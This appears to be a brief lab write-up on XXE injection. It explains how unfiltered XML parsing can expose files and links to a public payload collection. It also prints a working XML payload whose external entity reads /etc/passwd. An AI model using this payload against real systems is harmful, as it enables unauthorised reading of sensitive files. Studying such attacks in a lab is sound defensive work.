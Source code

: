 While parsing XML, if XML is not properly filtered out it can be used to inject other XML entities and get access of files or sometimes even remote code execution.

***Payloads:** https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection*

# Lab
![50de2d4dc13972792837a1b283e72615.png](../_resources/50de2d4dc13972792837a1b283e72615.png)

**XML File with injected payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">]>
<creds><user>&file;</user><password>weakpassword</password></creds>
```

**Result:**
![e244fc1850db9e5120058ca0ec442533.png](../_resources/e244fc1850db9e5120058ca0ec442533.png)
